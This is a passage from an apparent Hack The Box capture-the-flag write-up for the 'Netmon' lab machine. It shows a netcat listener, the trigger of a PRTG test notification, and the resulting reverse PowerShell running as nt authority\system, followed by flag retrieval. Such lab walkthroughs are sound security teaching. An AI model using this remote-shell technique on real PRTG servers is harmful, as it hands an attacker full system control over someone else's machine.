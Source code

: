 ```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
```
Save the notification and exit. In the Notifications tab, the name of your notification (you may have left it as 'Notification') should be listed among
others. There is a small edit icon on the end of your notification. Making sure you have your netcat listener up, press 'send test notification', aka
the bell icon. You should get a connection back to yourself: 


	connect to [10.10.14.21] from (UNKNOWN) [10.10.10.152] 50246
	Windows PowerShell running as user NETMON$ on NETMON
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.


	PS C:\Windows\system32>whoami       
	nt authority\system


We got shell as root!
Now we can capture both flags, root is in `C:\Users\Administrator\Desktop` and user flag is in `C:\Users\Public`.

                                                                                                                                                                     
	PS C:\Windows\system32> cd C:\Users\Administrator
	PS C:\Users\Administrator> cd Desktop
	PS C:\Users\Administrator\Desktop> dir


             Directory: C:\Users\Administrator\Desktop


	Mode                LastWriteTime         Length Name                          
	----                -------------         ------ ----                          
	-ar---         5/6/2022   6:07 PM             34 root.txt
